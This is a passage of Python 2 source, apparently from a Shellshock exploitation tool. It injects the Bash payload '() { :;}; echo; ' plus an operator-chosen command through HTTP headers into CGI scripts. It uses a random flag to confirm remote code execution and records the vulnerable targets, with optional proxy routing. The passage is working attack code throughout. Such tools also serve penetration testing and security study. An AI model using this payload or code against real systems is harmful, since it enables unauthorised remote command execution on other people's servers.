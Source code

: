 ```python
    """

    # Flag used to identify whether the exploit has successfully caused the
    # server to return a useful response
    success_flag = ''.join(
        random.choice(string.ascii_uppercase + string.digits
        ) for _ in range(20))
    
    # Dictionary {header:attack string} to try on discovered CGI scripts
    # Where attack string comprises exploit + success_flag + command
    attacks = {
       "Content-type": "() { :;}; echo; "
       }
    
    # A dictionary of apparently successfully exploited targets
    # {url: (header, exploit)}
    # Returned to main() 
    successful_targets = OrderedDict()

    if len(target_list) > 1:
        print "[+] %i potential targets found, attempting exploits" % len(target_list)
    else:
        print "[+] 1 potential target found, attempting exploits"
    for target in target_list:
        if verbose: print "[+] Trying exploit for %s" % target 
        if verbose: print "[I] Flag set to: %s" % success_flag
        for header, exploit in attacks.iteritems():
            attack = exploit + " echo " + success_flag + "; " + command
            result = do_attack(proxy, target, header, attack, verbose)
            if success_flag in result:
                if verbose: 
                    print "[!] %s looks vulnerable" % target 
                    print "[!] Response returned was:" 
                    buf = StringIO.StringIO(result)
                    if len(result) > (len(success_flag)):
                        for line in buf:
                            if line.strip() != success_flag: 
                                print "  %s" % line.strip()
                    else:
                        print "[!] A result was returned but was empty..."
                        print "[!] Maybe try a different exploit command?"
                    buf.close()
                successful_targets.update({target: (header, exploit)})
            else:
                if verbose: print "[-] Not vulnerable" 
    return successful_targets


def do_attack(proxy, target, header, attack, verbose):
    result = ""
    host = target.split(":")[1][2:] # substring host from target URL

    try:
        if verbose:
            print "[I] Header is: %s" % header
            print "[I] Attack string is: %s" % attack
        req = urllib2.Request(target)
        req.add_header(header, attack)
        if proxy:
            req.set_proxy(proxy, "http")    
            if verbose: print "[I] Proxy set to: %s" % str(proxy)
        req.add_header("User-Agent", user_agent)
        req.add_header("Host", host)
```